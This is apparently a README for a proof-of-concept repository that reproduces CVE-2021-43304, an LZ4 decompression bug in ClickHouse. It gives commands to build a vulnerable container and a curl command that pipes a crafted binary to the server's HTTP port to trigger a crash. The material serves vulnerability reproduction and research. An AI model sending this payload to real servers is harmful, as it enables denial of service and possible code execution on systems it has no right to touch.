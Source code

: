 # Clickhouse LZ4 RCE

The 7 vulnerabilities in Clickhouse discovered by the JFrog Security team, including 2 RCE vulnerabilities, were disclosed. For details, see: [Clickhouse Security Changelog](https://github.com/ClickHouse/ClickHouse/blob/master/docs/en/whats-new/security-changelog.md). This repository contains a reproduction environment and PoC for one of these vulnerabilities, CVE-2021-43304.

# Reproduction

First, clone this repository:

```
$ git clone https://github.com/s3nt3/clickhouse-lz4-rce.git
$ cd clickhouse-lz4-rce
```

We need to build the vulnerable clickhouse image and run the clickhouse container as follows:

```
$ cd docker && docker-compose build && docker-compose up
```

Use the following command to reproduce the crash:

```
$ cat poc/CVE-2021-43304.bin | curl -sS --data-binary @- 'http://[your ip address]:8123/?decompress=1'
```
